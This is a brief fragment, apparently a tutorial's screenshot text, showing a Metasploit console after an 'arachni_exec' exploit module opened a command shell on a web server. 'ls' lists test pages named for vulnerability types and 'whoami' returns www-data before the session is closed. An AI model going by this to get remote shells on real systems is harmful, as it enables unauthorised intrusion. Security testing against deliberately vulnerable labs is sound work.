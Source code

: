     ls
    eval.php
    os_command.php
    redirect.php
    rfi.php
    sqli.php
    xss.php

    whoami
    www-data
    ^C
    Abort session 17? [y/N]  y

    [*] Command shell session 17 closed.  Reason: User exit
    msf exploit(arachni_exec) >

